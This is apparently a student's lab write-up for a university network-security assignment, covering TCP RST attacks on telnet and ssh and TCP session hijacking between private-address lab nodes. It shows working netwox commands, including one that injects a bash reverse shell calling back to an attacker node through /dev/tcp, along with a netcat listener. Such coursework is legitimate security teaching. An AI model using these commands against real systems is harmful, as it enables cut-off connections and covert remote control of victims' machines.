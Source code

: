 ```yaml
---
id: A5
description: and assignments
title: TCP attacks
tags:
  - sfwr4c03
  - assignment
modified: 2025-04-10 23:09:30 GMT-04:00
---
```


## TCP RST Attacks on `telnet` and `ssh`

leg IP: `10.0.0.2`, vic IP: `10.0.0.3`

The `netwox` commands are as follow:

```bash
netwox 78 -d eth0 --filter "host 10.0.0.2 and host 10.0.0.3 and port 23"
```

![[thoughts/university/twenty-four-twenty-five/sfwr-4c03/leg.webp]]

![[thoughts/university/twenty-four-twenty-five/sfwr-4c03/attacker-terminal.webp]]

![[thoughts/university/twenty-four-twenty-five/sfwr-4c03/attacker.webp]]

This is for SSH

![[thoughts/university/twenty-four-twenty-five/sfwr-4c03/ssh-leg.webp]]

![[thoughts/university/twenty-four-twenty-five/sfwr-4c03/ssh-wireshark.webp]]

## TCP Session Hijacking

1. The following is the captured image on attacker node:

```bash
netcat -l 9090 -nv
```

![[thoughts/university/twenty-four-twenty-five/sfwr-4c03/attacker-tcp-hijacking.webp]]

The victim node then perform `bin/bash -i > /dev/tcp/10.0.0.1/9090 0<&1 2>&1`

![[thoughts/university/twenty-four-twenty-five/sfwr-4c03/reverse-vic-node.webp]]

The attacker node now completes the reverse shell process, as shown through `ifconfig`

![[thoughts/university/twenty-four-twenty-five/sfwr-4c03/reversed-shell-complete-att.webp]]

2. `netwox` command:

```bash
netwox 40 --ip4-src 10.0.0.2 -m 10.0.0.3 -o 58438 -p 23 -q 2811481894 -r 2489318395 -z -H "0d0a'/bin/bash -i > /dev/tcp/10.0.0.1/9090 0<&1 2>&1'0d0a"
```

![[thoughts/university/twenty-four-twenty-five/sfwr-4c03/attack-node-cmd-reverse.webp]]

![[thoughts/university/twenty-four-twenty-five/sfwr-4c03/new-wireshark.webp]]

## report

Based on the results observed from the network penetration tests, both attacks achieved their intended outcomes. The initial assault, conducted with `netwox 78` effectively terminated the connection between nodes 'leg' and 'vic' as soon as the command was launched. If the disruption persisted, 'leg' was rendered unable to re-establish a link to 'vic', which receiving only a "connection closed by foreign host" message in response. This situation demonstrates how an attacker could block a user's access to a server without much effort.

Similarly, the second offensive strategy utilizing `netwox 40` successful in enabling the stealthy execution of commands on 'vic', without leaving any trace of the intrusion. This capability is particularly alarming as it allows an attacker to secretly harvest data or execute harmful activities on a user's machine, where it would ultimately be without their awareness.
